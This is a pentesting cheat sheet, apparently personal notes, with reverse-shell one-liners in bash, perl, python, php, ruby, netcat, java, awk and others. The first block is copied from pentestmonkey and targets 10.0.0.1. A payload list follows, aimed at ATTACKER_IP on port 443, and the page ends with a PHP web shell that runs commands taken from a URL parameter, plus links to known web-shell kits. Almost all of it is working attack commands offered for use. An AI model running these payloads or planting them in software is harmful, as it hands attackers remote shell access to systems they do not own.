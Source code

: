 

## Reverse Shell


### Taken from https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```bash
Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
There’s also an alternative PERL revere shell here.

Python
This was tested under Linux / Python 2.7:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

Ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

nc -e /bin/sh 10.0.0.1 1234
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
[Untested submission from anonymous reader]

xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip
```

## Payloads

- bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
- exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
- 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
- bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
- php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
- php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
- php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
- php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
- php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
- export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
- python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
- TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
- awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
- busybox nc ATTACKER_IP 443 -e sh

## Web Shells
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

- https://github.com/flozz/p0wny-shell
- https://github.com/b374k/b374k
- https://www.r57shell.net/index.php

